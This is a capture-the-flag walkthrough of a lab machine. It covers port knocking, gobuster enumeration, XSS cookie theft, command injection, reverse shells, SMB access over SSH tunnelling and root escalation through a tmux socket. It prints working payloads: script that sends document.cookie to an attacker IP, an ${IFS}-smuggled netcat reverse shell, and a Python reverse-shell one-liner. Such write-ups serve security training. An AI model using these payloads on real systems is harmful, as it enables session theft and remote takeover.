 first of all we run nmap to scan all ports of the target machine:

	nmap -p- 10.10.10.179 

output:

	PORT   STATE SERVICE
	21/tcp open  ftp
	22/tcp open  ssh

there is open the ftp so I try to connect in anonymous:

	ftp anonymous@10.10.10.179

output:

	cd pub
	ls
	229 Entering Extended Passive Mode (|||45700|)
	150 Here comes the directory listing.
	-rw-r--r--    1 ftp      ftp           103 Aug 28  2020 info.txt
	-rw-r--r--    1 ftp      ftp           248 Aug 26  2020 jokes.txt
	-rw-r--r--    1 ftp      ftp        737512 Aug 18  2020 trace.pcapng

I download all of them, inside a info there is a reference to pcap, in jokes.txt tell something about the port knocking and the pcap has the the port knocking sequences.
after some research by using wireshark I found it some ports that are used to the same ip-address so i try to use a tool named "knock" to knock at them:

	knock 10.10.122.226 7864 8273 9241 12007 60753 

so:

	PORT     STATE SERVICE
	8080/tcp open  http-proxy

nice, the 8080 is now open it has a x509 certificate so we go to the following url: 

	https://10.10.122.226:8080 

now it's time to use gobuster:

	gobuster dir -k -u https://10.10.10.179:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt -t 50

output:

	/login
	/dashboard 301, redirect to /login
	/console

/console seems untouchable  so we should following the login, something very interesting is the x509 certificate very strange because other machines don't have it. 
So if we read the certificate's details we retrieve an email: emailAddress = "zac@misguided_ghosts.thm".
The most commont thing to do is to use the same user and password, if we try, we can see that we're in.
The main page has a phrase:

	Create a post below; admins will check every two minutes so don't be rude.

it seems an hint to do XSS in order to steal admin's cookie first we run a python server: 

	python3 -m http.server 8000

then I tried a bunch of payloads like:

	1) <script>alert(1);</script> 
	2) <img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>	

but just one worked for me:

	&#X3c;SCRIPT&#X3e;var i=new Image;i.src="http://10.8.98.143:8000/?"+document.cookie;&#X3c;/SCRIPT&#X3e;

The server will retieve the hayley cookie, and if we try to change the cookie we can see that we're hayley; I want to search for other directories so I run gobuster with this command

	gobuster dir -u https://10.10.10.179:8080/dashboard/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt -t 30 -k -c (REDACTED)

output:

	/photos

if we browse on this dir we can see that we can upload an image, but if we try it doesn't work so i tried an LFI on the url and seems to work, by looking around on the filesystem we can see that there is netcat, so we can try to run a revshell

	nc -lnvp 6666

	nc${IFS}10.9.59.103${IFS}6666${IFS}-e${IFS}sh

from netcat to pwncat:

	/usr/local/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.59.103",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

now we're inside with pwncat, if we go to /home/zac/notes we can see a txt that it refers to a private rsa key that it's ciphered probably with vigenere.
I try some many attempts and I found the key in order to decrypt. NB(RSA-key begin with a pattern of letters MII IBAA at the begin),after inside we tun linpeas.sh and we try privesc.
linpeas.sh tell us that there are open ports like:

	445,139 so SMB

we must bind this port in our localhost ports and we use this command in our terminal:

	ssh -i chiavessh -L 445:127.0.0.1:445 zac@10.10.171.93 
	then:
	smbclient \\\\127.0.0.1\\local

there is passwd.bak we do:

	get passwd.bk

inside there some passwords for hayley wit few attempts you can guess it or bruteforce with hydra.
Now we connect with pwncat and we're inside with hayley's user and then we can retireve the user.txt flag; for the second time we run linpeas.sh and we can see something very interesting:

	root       818  0.0  0.1  28540  3660 ?        Ss   16:21   0:00 /usr/bin/tmux -S /opt/.details new -s vpn -d

in short terms this command call the tmux's programm that it creates a personal socket with the -S with the corresptive path "/opt/.details" used for communication and the new -s vpn -d it creates the new session called vpn in detach(background)

if we do more investigation:

	ls -la /opt/.detail

output:

	srw-rw---- 1 root paramore 0 Jun 22 16:21 /opt/.details

exactly we can see that the following tmux session is runned by the root, so with the following command:

	/usr/bin/tmux -S /opt/.details

we can use the socket and enter in a root shell and retrieve the root.txt flag.
